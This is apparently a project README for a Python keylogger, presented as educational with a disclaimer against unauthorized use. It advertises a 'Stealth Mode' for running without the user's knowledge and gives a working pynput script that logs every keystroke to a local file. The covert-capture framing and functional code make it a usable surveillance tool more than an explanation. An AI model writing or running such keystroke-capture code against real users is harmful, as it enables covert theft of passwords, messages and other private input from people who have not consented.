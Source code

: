 # Keylogger

![Keylogger](https://example.com/your-image-url.jpg) <!-- Replace with an actual image URL if you have one -->

## Overview

A keylogger is a tool designed to record every keystroke made by a user on a computer keyboard. This project demonstrates a basic keylogger implementation for educational purposes, highlighting how keyloggers work and the potential security implications. **Note: This tool should be used responsibly and ethically. Unauthorized use of keyloggers is illegal and unethical.**

## Features

- **Keystroke Logging**: Capture and log all keystrokes made by the user.
- **Log Storage**: Save the logged keystrokes to a file for later analysis.
- **Stealth Mode**: Run in the background without the user's knowledge.

## How It Works

The keylogger runs in the background, intercepting keyboard events and recording the keystrokes. The captured data is then stored in a log file, which can be analyzed later.

### Example

Here is an example of how the keylogger captures keystrokes and saves them to a log file:

```python
import pynput
from pynput.keyboard import Key, Listener

log_file = "keylog.txt"

def on_press(key):
    with open(log_file, "a") as f:
        f.write(f"{key} pressed\n")

def on_release(key):
    if key == Key.esc:
        # Stop listener
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
